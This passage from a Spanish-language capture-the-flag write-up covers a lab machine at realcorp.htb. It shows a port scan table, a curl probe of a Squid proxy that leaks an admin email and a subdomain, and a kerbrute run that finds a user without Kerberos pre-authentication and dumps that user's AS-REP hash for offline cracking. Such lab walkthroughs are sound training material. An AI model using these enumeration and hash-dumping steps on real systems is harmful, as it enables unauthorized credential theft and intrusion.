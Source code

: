 Vemos varios puertos interesantes abiertos:

| Puerto      | Servicio |
| ----------- | ----------- |
| 22      | SSH       |
| 53   | DNS        |
| 3128  | SQUID proxy       |
| 88   | Kerberos        |

Bien, lo primero que hare sera ver que información nos da el squid a traves del protocolo http.

```bash
❯ curl -s 10.10.10.224:3128 | html2text

****** ERROR ******
***** The requested URL could not be retrieved *****
===============================================================================
The following error was encountered while trying to retrieve the URL: /
     Invalid URL
Some aspect of the requested URL is incorrect.
Some possible problems are:
    * Missing or incorrect access protocol (should be http:// or similar)
    * Missing hostname
    * Illegal double-escape in the URL-Path
    * Illegal character in hostname; underscores are not allowed.
Your cache administrator is j.nakazawa@realcorp.htb.

===============================================================================
Generated Thu, 23 Feb 2023 16:16:15 GMT by srv01.realcorp.htb (squid/4.11)
```

Vemos un error que nos proporciona algo de información:

- Un correo: [j.nakazawa@realcorp.htb](mailto:j.nakazawa@realcorp.htb?subject=CacheErrorInfo%20-%20ERR_INVALID_URL&body=CacheHost%3A%20srv01.realcorp.htb%0D%0AErrPage%3A%20ERR_INVALID_URL%0D%0AErr%3A%20%5Bnone%5D%0D%0ATimeStamp%3A%20Thu,%2023%20Feb%202023%2016%3A16%3A57%20GMT%0D%0A%0D%0AClientIP%3A%2010.10.16.4%0D%0A%0D%0AHTTP%20Request%3A%0D%0A%0D%0A%0D%0A).
-  Un subdominio: srv01.realcorp.htb

El subdominio lo meteré en el etc hosts junto con el dominio principal. Ademas aprovechando que kerberos esta abierto voy a ver si el usuario j.nakazawa es valido.

```bash
❯ ./kerbrute userenum --dc 10.10.10.224 -d realcorp.htb username

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 02/23/23 - Ronnie Flathers @ropnop

2023/02/23 17:24:41 >  Using KDC(s):
2023/02/23 17:24:41 >   10.10.10.224:88

2023/02/23 17:24:41 >  [+] j.nakazawa has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$j.nakazawa@REALCORP.HTB:4c7505a968f24fba278cd979c4adadd0$618480302f6ecba1617788d10cfc01e9098978efd4875d3789fed937857bf7b99b654644d82b3f6a37a1ced21b41180f96f0ae5a066fbc08523cbbbff8fea9484b69d7f7c81260ea84e5973ee1c90a038e310c3f517d97a17403ea989b85a51b2800a74288a15faf4471f94d9b93f105021ca41b76cfb01c37db83b3a10017e6471a6e80024a3d13d6c4415749e104c391480e4a6f1e1c3bde699f0e28ab39ddfa3b58f8b48b80082f42b918a40c68ed1ea813c53b11f8fe9cef38ee1b1a1628389a30de0adb89
2023/02/23 17:24:41 >  [+] VALID USERNAME:       j.nakazawa@realcorp.htb
```
